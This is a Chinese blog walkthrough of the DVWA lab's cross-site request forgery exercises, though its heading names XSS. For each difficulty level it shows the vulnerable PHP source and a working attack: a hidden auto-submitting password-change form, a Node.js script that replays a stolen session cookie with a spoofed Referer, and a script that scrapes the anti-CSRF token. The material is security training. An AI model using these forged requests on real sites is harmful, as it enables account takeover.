








DVWA XSS DOM All
====

目录
---

[TOC]

## 1. 背景

最近需要补充一下网络安全方面的知识，于是就从基础的靶场 `DVWA (Damn Vulnerable Web Application)` 开始刷起，这一篇是关于从`Low`到`High`难度的跨站请求伪造的内容。

和我一样希望学习网络安全知识的同学，推荐学习[《Web安全攻防实战》](http://gk.link/a/10jxi)和[《安全攻防技能30讲》](http://gk.link/a/10juL)。

## 2. 环境搭建

参考上一篇[关于 Brute Force 暴力破解密码的博客](https://blog.csdn.net/qq_41729780/article/details/107071363)。

## 3. 跨站请求伪造

我们需要在用户不知情的情况下改掉用户的密码。

### 3.1. Low



$$
\text{Figure 1. CSRF}
$$

先看源码，`Low`难度没有设置任何请求来源的校验。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

只需要让他人点击下面的链接，密码就修改成功了。

```javascript
http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change#
```

不过这个链接太明显了，我们也可以构造一个页面放在自己的服务器上。

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="zh">

    <head>
        <meta charset="UTF-8"> <!-- for HTML5 -->
        <style>
            div {
                text-align: center;
            }

        </style>
    </head>

    <body>
        <div>
            <p>
                页面跳转中，请稍候。。。
            </p>

            <style>
                form {
                    display: none;
                }

            </style>
            <form action="http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/"
                method="GET">
                New password:<br />
                <input type="password" AUTOCOMPLETE="off" name="password_new" value="hackerPassword"><br />
                Confirm new password:<br />
                <input type="password" AUTOCOMPLETE="off" name="password_conf" value="hackerPassword"><br />
                <br />
                <input type="submit" id="button" name="Change" value="Change" />
            </form>
            <script>
                document.getElementById("button").click();

            </script>
        </div>
    </body>

</html>

```

点击以后就会发送请求改变用户的密码。



$$
\text{Figure 2. Low}
$$

### 3.2. Medium

接下来是`Medium`难度，先看源码。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

这里加入了一个来源的校验，我们可以看一看这段代码的含义

```php
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```

`stripos`函数：

```php
stripos ( string $haystack , string $needle [, int $offset = 0 ] ) : int
```

返回在字符串 `haystack` 中 `needle` 首次出现的数字位置。

- `$_SERVER` 是一个包含了诸如`头信息(header)`、`路径(path)`、以及`脚本位置(script locations)`等等信息的数组。这个数组中的项目由 `Web` 服务器创建。

- `HTTP_REFERER`：引导用户代理到当前页的前一页的地址（如果存在）。由 `user agent` 设置决定。并不是所有的用户代理都会设置该项，有的还提供了修改 `HTTP_REFERER` 的功能。简言之，该值并不可信。

- `SERVER_NAME`：当前运行脚本所在的服务器的主机名。如果脚本运行于虚拟主机中，该名称是由那个虚拟主机所设置的值决定。

`HTTP_REFERER`不能通过`jQuery`请求伪造发送。



$$
\text{Figure 3. Set Header}
$$

使用`Ajax`发送请求还会遇到跨域问题。



$$
\text{Figure 4. CORS}
$$

也就是说，使用前端伪造请求可能会遇到各种障碍，我们就考虑用服务端来伪造请求。而使用服务端的话，我们就需要利用别的漏洞来窃取到用户的`Cookie`。

这里我们使用DOM XSS来窃取用户的`Cookie`，详情参考 [网络安全入门之跨站脚本攻击 DVWA XSS DOM Low to High](https://blog.csdn.net/qq_41729780/article/details/107131245) 这一篇博客。

那么假设我们现在已经窃取到了用户的Cookie

```javascript
"security=medium; PHPSESSID=8jkvdfa07u9jgornta8862b9d0"
```

在服务端使用`Node.js`的`request组件`发送HTTP请求。

```node
var request = require('request');
    const options = {
        url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change#',
        method: "GET",
        headers: {
            "Content-Type": "text/html;charset=utf-8",
            Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
            Cookie: "security=medium; PHPSESSID=8jkvdfa07u9jgornta8862b9d0"
        }
    };

function callback(error, response, body) {
    if (!error && response.statusCode == 200) {
        console.log("Success") // 请求成功的处理逻辑
        console.log(body) // 请求成功的处理逻辑
        console.log(typeof(body))
    } else {
        console.log("Error") // 请求失败的处理逻辑
        console.log(error) // 请求失败的处理逻辑
    }
}

var res = request(options, callback);
```

从返回的`HTML`中我们也可以看到，密码已经成功被我们修改了。



$$
\text{Figure 5. Medium}
$$

### 3.3. High

`High`难度加入了`Anti-CSRF token`。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

不过这里有一个漏洞，就是`token`存在了前端代码中，这又给了我们窃取`token`的机会。



$$
\text{Figure 6. Token}
$$

同样先拿到`Cookie`。

```javascript
"security=high; PHPSESSID=f3klut5ds454k782h5ea0prol5"
```

使用`Node.js`先发送一次请求，拿到`token`，然后把`token`加入到`GET`请求中，再发送一次请求。

```javascript
const cheerio = require('cheerio')
const request = require('request');
var $;
var tokenThis;

var options = {
    url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/',
    method: "GET",
    headers: {
        "Content-Type": "text/html;charset=utf-8",
        Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
        Cookie: "security=high; PHPSESSID=f3klut5ds454k782h5ea0prol5"
    }
};

function callback(error, response, body) {
    if (!error && response.statusCode == 200) {
        console.log("Success") // 请求成功的处理逻辑
        // 获取html对象
        $ = cheerio.load(JSON.stringify(body))
        // 获取token
        tokenThis = $('input[name="user_token"]').attr('value');
        console.log(body) // 请求成功的处理逻辑
    } else {
        console.log("Error") // 请求失败的处理逻辑
        console.log(error) // 请求失败的处理逻辑
    }
}

// 设置第二次请求的参数
function setOpt() {
    var options2 = {
        url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change&user_token=' +
            tokenThis,
        method: "GET",
        headers: {
            "Content-Type": "text/html;charset=utf-8",
            Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
            Cookie: "security=high; PHPSESSID=f3klut5ds454k782h5ea0prol5"
        }
    }
    return options2
};

// Node.js是异步的，我们这里需要同步执行所以用到了Promise和then
fn = ()=>{return new Promise(
        (resovle, reject) => {
            var res = resovle;
            request(options, (error, response, body) => {
                callback(error, response, body);
                res()；
            });
        }
    )
}
// 同步
fn().then(
    () => {
        request(setOpt(), callback);
    }
)
```

修改成功。



$$
\text{Figure 7. High}
$$

### 3.3. Impossible

`Impossible`难度加入了原密码的校验，在不知道原密码的情况下无法对密码进行修改，这样是比较安全的。



$$
\text{Figure 8. Impossible}
$$

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
        $data->execute();

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match or current password incorrect.</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

---

**联系邮箱**：curren_wong@163.com

**CSDN**：[https://me.csdn.net/qq_41729780](https://me.csdn.net/qq_41729780)

**知乎**：[https://zhuanlan.zhihu.com/c_1225417532351741952](https://zhuanlan.zhihu.com/c_1225417532351741952)

**公众号**：**复杂网络与机器学习**

欢迎关注/转载，有问题欢迎通过邮箱交流。


